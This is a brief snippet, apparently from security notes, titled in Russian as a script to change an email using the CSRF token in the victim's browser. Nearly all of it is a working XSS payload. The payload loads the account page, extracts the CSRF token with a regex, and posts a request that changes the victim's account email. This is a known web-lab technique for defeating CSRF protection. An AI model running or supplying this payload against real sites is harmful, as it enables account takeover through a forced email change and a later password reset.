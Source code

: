 #### Скрипт на изменение почти при помощи csrf токена в браузере жертвы
```
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send();
function handleResponse() { 
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
	var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') 
	}; 
</script>
```